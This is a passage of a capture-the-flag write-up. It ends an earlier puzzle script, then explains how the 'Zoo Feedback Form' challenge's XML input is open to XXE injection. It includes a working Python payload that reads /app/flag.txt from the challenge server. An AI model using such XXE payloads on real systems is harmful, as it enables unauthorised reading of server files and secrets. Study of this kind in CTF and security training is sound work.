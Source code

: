 ```python
    print(''.join(['owuwspdgrtejiiud'[p] for p in final_perm]))

perm = solve()
```

# Web

## Zoo Feedback Form

The webpage is a simple feedback form with only one input field. Upon clicking "Submit Feedback", a POST request is sent:

```xml
<?xml version="1.0" encoding="UTF-8"?>
            <root>
                <feedback>a</feedback>
            </root>
```

with a response of:

```
Feedback sent to the Emus: a
```

Testing around, we can determine that the form is unfiltered. For example, sending `<` yields an XML parsing error about `invalid element name`. Thus, this form is vulnerable to XXE (XML External Entity) injection. Specifically, we can use the `<!ENTITY>` directive to read the contents of files on the server (along with other possibilities, but for getting the flag, this is all we need).

```python
import requests

url = 'https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev/'

headers = {
    'Content-Type': 'application/xml'

}

payload = """
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/flag.txt"> ]>
<root>
    <feedback>&xxe;</feedback>
</root>
"""

response = requests.post(url, data=payload, headers=headers)
print(response.text)
```

This script sends a POST request with the payload containing the `<!ENTITY>` directive to read the contents of `flag.txt`. The response contains the flag!
